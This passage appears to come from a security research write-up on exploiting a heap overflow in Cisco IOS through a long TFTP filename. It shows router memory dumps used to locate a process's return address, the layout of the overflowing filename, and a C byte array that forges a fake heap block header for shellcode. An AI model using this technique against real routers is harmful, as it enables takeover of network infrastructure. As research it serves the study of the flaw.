 ```  
02590210: 00001388 020E488E 00000000 00000000  ......H.........  
02590220: 00000000 00000000 00000000 00000000  ................  
```  
The first entry in this record is 0x0258FDF4, which is the process stack.  
You can compare this to the line above that says "Load Meter" and "Process  
Stack" on it in the output of "show memory processor allocating-process".  
The second element is the current stack pointer of this process  
(0x025901AC). By now it should also be clear why we want to pick a process  
with low activity. But surprisingly, the same procedure also works quite  
well with busier processes such as "IP Input". Inspecting the location of  
the stack pointer, we see something quite familiar:  
```  
radio#sh mem 0x025901AC  
025901A0:                            025901C4              .Y.D  
025901B0: 020DC478 0256CAF8 025902DE 00000000  ..Dx.VJx.Y.^....  
```  
This is classic C calling convention: first we find the former frame  
pointer and then we find the return address. Therefore, 0x025901B0 is the  
address we are targeting to overwrite with a pointer supplied by us.  
  
The only question left is: Where do we want the return address to point to?  
As already mentioned, IOS will overwrite the buffer we are filling with  
0x0D0D0D0D when the free() is executed - so this is not a good place to  
have your code in. On the other hand, the fake block's data section is  
already considered clean from IOS's point of view, so we just append our  
code to the fake block header we already have to send. But what's the  
address of this? Well, since we have to know the previous pointer, we can  
calculate the address of our code as offset to this one - and it turns out  
that this is actually a static number in this case. There are other, more  
advanced methods to deliver the code to the device, but let's keep focused.  
  
The TFTP filename we are asking for should now have the form of:  
```  
 +--------------+  
 | AAAAAAAAAAAA |  
 ...  
 | AAAAAAAAAAAA |  
 +--------------+  
 | FAKE BLOCK   |  
 |              |  
 ....  
 |              |  
 +--------------+  
 | CODE         |  
 |              |  
 ....  
 +--------------+  
```  
At this point, we can build the fake block using all the information we  
gathered:  
```  
    char                fakeblock[] =  
        "\xFD\x01\x10\xDF"      // RED  
        "\xAB\x12\x34\xCD"      // MAGIC  
        "\xFF\xFF\xFF\xFF"      // PID  
        "\x80\x81\x82\x83"      //  
        "\x08\x0C\xBB\x76"      // NAME  
        "\x80\x8a\x8b\x8c"      //  
  
        "\x02\x0F\x2A\x04"      // NEXT  
        "\x02\x0F\x16\x94"      // PREV  
  
        "\x7F\xFF\xFF\xFF"      // SIZE  
        "\x01\x01\x01\x01"      //  
        "\xA0\xA0\xA0\xA0"      // padding  
```
